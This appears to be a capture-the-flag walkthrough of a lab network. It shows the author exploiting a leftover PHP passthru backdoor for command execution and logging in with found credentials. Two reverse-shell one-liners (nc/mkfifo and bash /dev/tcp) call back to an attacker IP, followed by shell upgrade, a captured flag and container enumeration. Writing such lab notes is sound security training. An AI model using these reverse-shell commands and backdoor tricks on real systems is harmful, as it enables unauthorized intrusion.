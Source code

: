 
```
admin
```

```
DBManagerLogin!
```

So we are in 

![[Pasted image 20240813203006.png]]

And we can see php is there let's see how to get the shell from here 

So i pasted the code that i found in the source code 
```
  <!--                   //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

and found that we have RCE here

```
http://admin.holo.live/dashboard.php?cmd=whoami
```
![[Pasted image 20240813203426.png]]

let's see if we are able to get a reverse shell

So i tried to get the version of python but i don't think it's installed (i.e. check which python)
but than bash came to my mind and it returned (i.e. which bash)
```
admin.holo.live/dashboard.php?cmd=which%20bash
```
![[Pasted image 20240813203747.png]]


After so many try's this one linear working as website got stuck which is an indication we might have got a shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.51.9.13 4242 >/tmp/f
```

```
%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F10.51.9.13%2F4242 0>%261
```

![[Pasted image 20240813204209.png]]

Let's get the full shell from the dummy shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm
```

![[Pasted image 20240813204531.png]]

Let's run the linpeas's and see what we find here
```
cat user.txt
HOLO{175d7322f8fc53392a417ccde356c3fe}
```

```
hostname
e932f030b3c8
```

```
uname -a
Linux e932f030b3c8 5.4.0-1030-aws #31-Ubuntu SMP Fri Nov 13 11:40:37 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

```
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   4632   824 pts/0    Ss   10:00   0:00 /bin/sh -c /e
root          27  0.0  0.4 373648 18708 ?        Ss   10:00   0:00 /usr/sbin/apa
www-data      30  0.0  0.3 374204 13004 ?        S    10:00   0:00 /usr/sbin/apa
www-data      31  0.0  0.1 373680  6980 ?        S    10:00   0:00 /usr/sbin/apa
www-data      32  0.0  0.3 374204 14128 ?        S    10:00   0:00 /usr/sbin/apa
www-data      33  0.0  0.2 374048 10972 ?        S    10:00   0:00 /usr/sbin/apa
www-data      34  0.0  0.1 373680  6980 ?        S    10:00   0:00 /usr/sbin/apa
mysql         75  0.0  0.0   4632  1720 ?        S    10:00   0:00 /bin/sh /usr/
mysql        429  0.1  4.6 1621092 188216 ?      Sl   10:00   0:01 /usr/sbin/mys
root         509  0.0  0.0  18512  3132 pts/0    S+   10:00   0:00 /bin/bash
www-data     516  0.0  0.1 373680  6984 ?        S    10:04   0:00 /usr/sbin/apa
www-data     517  0.0  0.0   4632   772 ?        S    10:04   0:00 sh -c rm /tmp
www-data     520  0.0  0.0   4676   744 ?        S    10:04   0:00 cat /tmp/f
www-data     521  0.0  0.0  18512  3420 ?        S    10:04   0:00 bash -i
www-data     522  0.0  0.0   6652  1892 ?        R    10:04   0:00 nc 10.51.9.13
www-data     527  0.0  0.2  36812  8532 ?        S    10:11   0:00 /usr/bin/pyth
www-data     528  0.0  0.0  18512  3396 pts/1    Ss   10:11   0:00 /bin/bash
www-data     550  0.0  0.0  34408  2800 pts/1    R+   10:28   0:00 ps aux
```

```
find / -perm -u=s -type f 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
```

```
cat /proc/1 cgroup
```

```
www-data@e932f030b3c8:/proc/1$ cat cgroup
cat cgroup
12:memory:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
11:freezer:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
10:devices:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
9:blkio:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
8:cpuset:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
7:rdma:/
6:pids:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
5:perf_event:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
4:net_cls,net_prio:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
3:cpu,cpuacct:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
2:hugetlb:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
1:name=systemd:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
0::/system.slice/containerd.service
```

As we are not able to upload the nmap or anyfile for pingsweep so we have to come back to basics.
